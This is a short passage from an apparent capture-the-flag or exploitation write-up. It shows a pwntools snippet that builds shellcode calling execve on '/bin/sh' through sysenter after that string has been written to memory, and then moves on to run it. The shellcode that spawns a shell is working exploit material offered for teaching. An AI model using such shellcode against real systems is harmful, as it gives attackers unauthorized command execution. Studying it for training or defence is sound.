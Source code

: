 <figure><img src="../../.gitbook/assets/image (199).png" alt="" width="563"><figcaption></figcaption></figure>

and we managed to write `/bin/sh` to the memory, next let's set up the registers accordingly to call `execve`.&#x20;

```python
shellcode += asm(f'''
    mov rbx, rdi
    xor ecx, ecx
    xor edx, edx
                    
    mov eax, 11
    sysenter
''')
```

now let's run it !
